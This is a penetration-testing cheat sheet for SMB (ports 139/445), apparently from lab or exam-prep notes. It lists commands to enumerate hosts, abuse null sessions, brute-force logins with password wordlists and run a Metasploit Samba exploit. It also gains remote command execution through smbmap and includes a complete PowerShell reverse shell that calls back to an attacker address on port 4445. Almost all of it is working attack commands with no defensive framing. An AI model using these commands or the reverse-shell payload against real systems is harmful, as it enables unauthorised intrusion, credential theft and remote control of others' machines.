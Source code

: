 # smb 139,445

    # Find hosts
    nmap -v -p 139,445 -oA SMB_Scan 10.11.1.0/24
    nmblookup -A <ip>
    nbtscan <ip>
    nbtscan -r 192.168.1.1/24

    # Enum hostname
    enum4linux -n 10.11.1.111
    nmblookup -A 10.11.1.111
    nmap --script=smb-enum* --script-args=unsafe=1 -T5 10.11.1.111

    # Get Version
    smbver.sh 10.11.1.111
    Msfconsole;use scanner/smb/smb_version
    ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]' 
    smbclient -L \\\\10.11.1.111

    # Get Shares
    smbmap -H  10.11.1.111 -R <sharename>
    echo exit | smbclient -L \\\\10.11.1.111
    smbclient \\\\10.11.1.111\\<share>
    smbclient -L //10.11.1.111 -N
    nmap --script smb-enum-shares -p139,445 -T4 -Pn 10.11.1.111
    smbclient -L \\\\10.11.1.111\\

    # Check null sessions
    smbmap -H 10.11.1.111
    rpcclient -U "" -N 10.11.1.111
    smbclient //10.11.1.111/IPC$ -N

    # Exploit null sessions
    enum -s 10.11.1.111
    enum -U 10.11.1.111
    enum -P 10.11.1.111
    enum4linux -a 10.11.1.111
    /usr/share/doc/python3-impacket/examples/samrdump.py 10.11.1.111

    # Connect to username shares
    smbclient //10.11.1.111/share -U username

    # Connect to share anonymously
    smbclient \\\\10.11.1.111\\<share>
    smbclient //10.11.1.111/<share>
    smbclient //10.11.1.111/<share\ name>
    smbclient //10.11.1.111/<""share name"">
    rpcclient -U " " 10.11.1.111
    rpcclient -U " " -N 10.11.1.111

    # Check vulns
    nmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111

    # Check common security concerns
    msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc

    # Extra validation
    msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc

    # Multi exploits
    msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

    # Bruteforce login
    medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt 
    nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
    nmap –script smb-brute 10.11.1.111

    # nmap smb enum & vuln 
    nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
    nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

    # Mount smb volume linux
    mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

    # rpcclient commands
    rpcclient -U "" 10.11.1.111
        srvinfo
        enumdomusers
        getdompwinfo
        querydominfo
        netshareenum
        netshareenumall

    # Run cmd over smb from linux
    winexe -U username //10.11.1.111 "cmd.exe" --system

    # smbmap
    smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
    smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
    smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
    smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

    # Check
    \Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "
